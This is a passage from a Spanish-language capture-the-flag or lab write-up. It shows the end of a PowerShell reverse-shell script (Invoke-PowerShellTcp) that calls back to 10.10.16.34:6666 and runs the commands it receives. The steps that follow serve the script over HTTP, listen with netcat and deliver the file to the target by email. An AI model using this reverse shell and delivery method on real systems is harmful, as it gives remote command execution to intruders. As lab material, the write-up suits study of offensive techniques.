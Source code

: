 ~~~powershell
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.34 -Port 6666
~~~

- Una vez que tengamos nuestro script, inicaremos un server de Python, al mismo tiempo que nos ponemos en escucha con `netcat`:
- Una vez que tengamos esto preparado, enviamos el archivo por correo:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/faccbdb7-e4a9-4c24-8c3d-4d255b77f1eb)

- Y si todo fue realizado de manera correcta, deberíamos recibir una conexión casi al instante:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/1629c207-44bc-44b8-86cc-4c4530bf144b)

***

<h3>PrivEsc:</h3>

